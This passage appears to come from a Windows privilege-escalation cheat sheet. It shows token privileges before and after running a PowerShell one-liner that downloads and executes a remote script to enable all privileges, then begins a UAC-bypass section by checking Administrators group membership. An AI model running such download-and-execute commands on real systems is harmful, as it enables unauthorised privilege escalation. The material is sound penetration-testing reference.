 <pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>PS C:\> whoami /priv  # Some privileges are disabled
</strong>
Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled

<strong>PS C:\> IEX(New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1');
</strong>
<strong>PS C:\> whoami /priv  # Now everything is enabled
</strong>
Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Enabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Enabled
</code></pre>

## UAC Bypass

Using `whoami /groups` you can find if your user is in the `BUILTIN\Administrators` group, and if they are, you should be able to reach the `Mandatory Label\High`, which might be at `Mandatory Label\Medium` right now.&#x20;

<pre><code><strong>PS C:\> whoami /groups
</strong>
GROUP INFORMATION
-----------------

Group Name                             Type             SID                                            Attributes
====================================== ================ ============================================== ==================================================
Everyone                               Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
<strong>BUILTIN\Administrators                 Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group
</strong>BUILTIN\Remote Desktop Users           Alias            S-1-5-32-555                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\BATCH                     Well-known group S-1-5-3                                        Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
<strong>Mandatory Label\Medium Mandatory Level Label            S-1-16-8192
</strong></code></pre>
